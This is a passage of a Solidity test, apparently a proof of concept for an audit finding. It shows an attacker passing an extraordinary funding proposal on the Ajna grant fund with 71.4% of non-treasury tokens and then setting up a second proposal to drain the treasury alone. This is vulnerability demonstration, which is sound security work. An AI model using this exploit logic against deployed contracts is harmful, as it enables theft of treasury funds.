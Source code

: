 ```
      // Attacker was able to request 50% of treasury with only 71.4% of the Non-treasury tokens.
      // Whitepaper says that in order to request 50% of tokens (1st proposal, so Minium Threshold equals 50%), 
      // the proposal will need 50% + 50% = 100% of Non-Treasury tokens. Which here is demostrated that you only need 71.4%.
      IFunding.ProposalState proposalState = _grantFund.state(testProposal.proposalId);
      assertEq(uint8(proposalState), uint8(IFunding.ProposalState.Succeeded));

      // execute proposal
      _grantFund.executeExtraordinary(targets, values, calldatas, keccak256(bytes(testProposal.description)));

      /*
        Status after the 1st proposal success:

        - Attacker has 535M of ajna tokens
        - Holders from 2 to 6 have 23M of ajna tokens each, total of = 125M
        - TotalSupply is 1B ajna tokens.
        - Treasury is 150M ajna tokens
        - Non-Treasury tokens are 850M tokens
      */
      assertEq(_token.balanceOf(_attacker), 535_000_000 * 1e18);
      assertEq(_token.balanceOf(_tokenHolder2), 23_000_000 * 1e18);
      assertEq(_token.balanceOf(_tokenHolder3), 23_000_000 * 1e18);
      assertEq(_token.balanceOf(_tokenHolder4), 23_000_000 * 1e18);
      assertEq(_token.balanceOf(_tokenHolder5), 23_000_000 * 1e18);
      assertEq(_token.balanceOf(_tokenHolder6), 23_000_000 * 1e18);
      assertEq(_token.totalSupply(), 1_000_000_000 * 1e18);
      assertEq(_grantFund.treasury(), 150_000_000 * 1e18);
      assertEq(_grantFund.getSliceOfNonTreasury(1e18), 850_000_000 * 1e18);

      /*
        After the 1st proposal has succeed, the attacker now can drain the treasury alone, without the previous delegators.

        This happens because the formula actually makes it easier to execute further extraordinary proposals.

        For example the previous proposal required 71.4% of non-treasury tokens to pass a proposal of 50% of treasury tokens.

        I will show how the second proposal will only require 62.94% of non-treasury tokens to pass a proposal of 45% of treasury tokens.
        Which is a slightly increase from 500M needed to 535M needed, that is only a 7% difficulty increase. Whereas the attacker increased his
        voting power from 385M to 535M (thanks to proposal 1) which is a 39% increase in his voting power.
      */

      // Holders now delegates for them
      _delegateTo(_token, _votersArrAttacker, _votersArrAttacker);
      _delegateTo(_token, _votersArr, _votersArr);
      

      vm.roll(_startBlock2 + 500);

      // set proposal params
      uint256 endBlockParam2 = block.number + 100_000;
       // 67.5 tokens requested, that is 45% of treasury
      uint256 tokensRequestedParam2 = 67_500_000 * 1e18;

      // generate proposal targets
      address[] memory targets2 = new address[](1);
```